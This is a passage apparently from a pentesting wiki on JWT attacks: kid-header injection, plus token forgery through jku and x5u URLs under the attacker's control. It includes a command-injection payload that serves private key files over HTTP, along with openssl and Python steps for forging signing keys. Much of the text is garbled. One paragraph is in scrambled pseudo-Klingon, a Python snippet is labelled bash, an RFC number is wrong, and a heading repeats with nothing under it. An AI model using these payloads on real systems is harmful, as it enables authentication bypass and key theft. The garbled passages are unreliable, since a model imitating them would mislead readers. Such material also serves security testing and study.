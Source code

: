 This alteration forces the use of a known secret key, `ATTACKER`, for JWT signing.

#### OS Injection through "kid"

A scenario where the `kid` parameter specifies a file path used within a command execution context could lead to Remote Code Execution (RCE) vulnerabilities. By injecting commands into the `kid` parameter, it's possible to expose private keys. An example payload for achieving RCE and key exposure is:

`/root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337&`

### x5u and jku

#### jku

jku stands for **JWK Set URL**.\
If the token uses a “**jku**” **Header** claim then **check out the provided URL**. This should point to a URL containing the JWKS file that holds the Public Key for verifying the token. Tamper the token to point the jku value to a web service you can monitor traffic for.

First you need to create a new certificate with new private & public keys
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
**[jwt.io](https://jwt.io)** vItlhutlh **JWT** **chel** **public je private keys** **'ej jku** **parameter** **certificate created** **pointing** **chel** **JWT** **new** **create** **to** **use** **can** **SoH**. **valid jku certificate** **create** **to** **order** **In** **parameters** **needed** **the** **change** **and** **one** **original** **the** **download** **can** **you**

**"e" je "n"** **parameters** **public certificate** **a** **from** **obtain** **can** **you** **SoH**.
```bash
from Crypto.PublicKey import RSA
fp = open("publickey.crt", "r")
key = RSA.importKey(fp.read())
fp.close()
print("n:", hex(key.n))
print("e:", hex(key.e))
```
#### x5u

X.509 URL. A URI pointing to a set of X.509 (a certificate format standard) public certificates encoded in PEM form. The first certificate in the set must be the one used to sign this JWT. The subsequent certificates each sign the previous one, thus completing the certificate chain. X.509 is defined in RFC 52807. Transport security is required to transfer the certificates.

Try to **change this header to an URL under your control** and check if any request is received. In that case you **could tamper the JWT**.

To forge a new token using a certificate controlled by you, you need to create the certificate and extract the public and private keys:

#### x5u
